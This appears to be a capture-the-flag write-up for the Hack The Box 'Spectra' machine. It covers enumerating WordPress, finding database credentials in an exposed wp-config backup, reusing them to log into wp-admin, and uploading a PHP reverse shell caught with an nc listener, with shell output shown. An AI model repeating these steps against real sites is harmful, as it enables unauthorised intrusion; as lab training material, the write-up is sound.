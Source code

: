 WPSCAN:
  + WordPress version 5.4.2
  + Theme twentynineteen
  + Theme twentyseventeen
  + Theme twentytwenty

2. Visiting http://10.10.10.229 we find; "Until IT set up the Jira we can configure and use this for issue tracking.", and two
links to 'Software Issue Tracker' (spectra.htb/main/index.php) and 'Test' (spectra.htb/testing/index.php).

TEST:
  + Database connection error
  + All files are listed when visiting http://spectra.htb/testing/, we find
  + http://spectra.htb/testing/wp-config.php.save shows it's configuration when inspecting the source code
    + DB_NAME: dev
    + DB_USER: devtest
    + DB_PASSWORD: devteam01
    + DB_HOST: localhost
    + table_prefix: wp_

  Finding the MySQL creds we can try to dump the database;
    [root:/git/htb/spectra]# mysqldump -h 10.10.10.229 dev wp_users -u devtest -p
      Enter password: devteam01
      mysqldump: Got error: 1130: "Host '10.10.14.12' is not allowed to connect to this MySQL server" when trying to connect

MAIN:
  + The main page have WordPress printed all over it
  + The welcome message is made by user Administrator
  + Admin login at http://10.10.10.229/main/wp-admin/

Use the found password to login on wp-admin (administrator:devteam01). Once logged in upload a php reverse shell as a plugin,
note that we will get a error saying: "The package could not be installed. PCLZIP_ERR_BAD_FORMAT (-10)". However, the file
will still be uploaded and reachable through 'http://10.10.10.229/main/wp-content/uploads/<YEAR>/<MONTH>/rev.php'

Setup a local listener and visit 'http://10.10.10.229/main/wp-content/uploads/2021/05/rev.php'

  [root:/git/htb/spectra]# nc -lvnp 4488
    listening on [any] 4488 ...
    connect to [10.10.14.12] from (UNKNOWN) [10.10.10.229] 41986
    Linux spectra 5.4.66+ #1 SMP Tue Dec 22 13:39:49 UTC 2020 x86_64 AMD EPYC 7401P 24-Core Processor AuthenticAMD GNU/Linux
     00:23:28 up 50 min,  0 users,  load average: 0.00, 0.00, 0.00
    USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
    uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
    $ pwd
      /
    $ ls -al /home
      total 32
      drwxr-xr-x  8 root    root    4096 Feb  2 15:55 .
      drwxr-xr-x 22 root    root    4096 Feb  2 14:52 ..
      drwx------  4 root    root    4096 Jul 20  2020 .shadow
      drwxr-xr-x 20 chronos chronos 4096 May 10 23:35 chronos
      drwxr-xr-x  4 katie   katie   4096 Feb 10 00:38 katie
      drwxr-xr-x  5 nginx   nginx   4096 Feb  4 12:41 nginx
      drwxr-x--t  4 root    root    4096 Jul 20  2020 root
      drwxr-xr-x  4 root    root    4096 Jul 20  2020 user
